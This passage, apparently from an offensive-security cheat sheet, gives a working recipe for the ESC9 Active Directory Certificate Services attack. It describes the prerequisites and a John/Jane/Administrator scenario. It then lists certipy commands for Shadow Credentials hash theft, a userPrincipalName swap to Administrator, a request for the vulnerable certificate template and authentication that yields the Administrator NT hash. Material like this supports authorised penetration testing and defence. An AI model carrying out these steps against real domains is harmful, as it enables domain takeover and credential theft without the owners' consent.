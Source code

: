 ## ESC9 - No Security Extension

**Requirements**

* `StrongCertificateBindingEnforcement` set to `1` (default) or `0`
* Certificate contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* Certificate specifies `Any Client` authentication EKU
* `GenericWrite` over any account A to compromise any account B

**Scenario**

<John@corp.local> has **GenericWrite** over <Jane@corp.local>, and we want to compromise <Administrator@corp.local>.
<Jane@corp.local> is allowed to enroll in the certificate template ESC9 that specifies the **CT_FLAG_NO_SECURITY_EXTENSION** flag in the **msPKI-Enrollment-Flag** value.

* Obtain the hash of Jane with Shadow Credentials (using our GenericWrite)

    ```ps1
    certipy shadow auto -username John@corp.local -p Passw0rd -account Jane
    ```

* Change the **userPrincipalName** of Jane to be Administrator. :warning: leave the `@corp.local` part

    ```ps1
    certipy account update -username John@corp.local -password Passw0rd -user Jane -upn Administrator
    ```

* Request the vulnerable certificate template ESC9 from Jane's account.

    ```ps1
    certipy req -username jane@corp.local -hashes ... -ca corp-DC-CA -template ESC9
    # userPrincipalName in the certificate is Administrator 
    # the issued certificate contains no "object SID"
    ```

* Restore userPrincipalName of Jane to <Jane@corp.local>.

    ```ps1
    certipy account update -username John@corp.local -password Passw0rd -user Jane@corp.local
    ```

* Authenticate with the certificate and receive the NT hash of the <Administrator@corp.local> user.

    ```ps1
    certipy auth -pfx administrator.pfx -domain corp.local
    # Add -domain <domain> to your command line since there is no domain specified in the certificate.
    ```
## ESC10 - Weak Certificate Mappings
